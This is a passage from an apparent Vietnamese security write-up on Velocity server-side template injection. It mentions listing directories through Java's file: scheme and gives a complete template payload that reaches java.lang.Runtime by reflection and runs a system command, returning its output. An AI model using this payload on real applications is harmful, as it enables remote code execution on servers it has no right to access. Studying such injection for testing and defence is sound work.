 ![1](image/30.png)

- Nếu trong các case thực tế không biết đường dẫn cụ thể thì chúng ta cho thể tận dụng scheme file của java để lấy ra list các thư mục 

![1](image/31.png)

#### Có outbound 

**Payload thực hiện**

```js
#set ($exp="test")
#set ($runtime=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null))
#set ($process=$runtime.exec("id"))
#set ($input=$process.getInputStream())
#set ($sc=$exp.getClass().forName("java.util.Scanner"))
#set ($constructor=$sc.getDeclaredConstructor($input.getClass().forName("java.io.InputStream")))
#set ($scan=$constructor.newInstance($input).useDelimiter("\\A"))
#if ($scan.hasNext())
  $scan.next()
#end
```
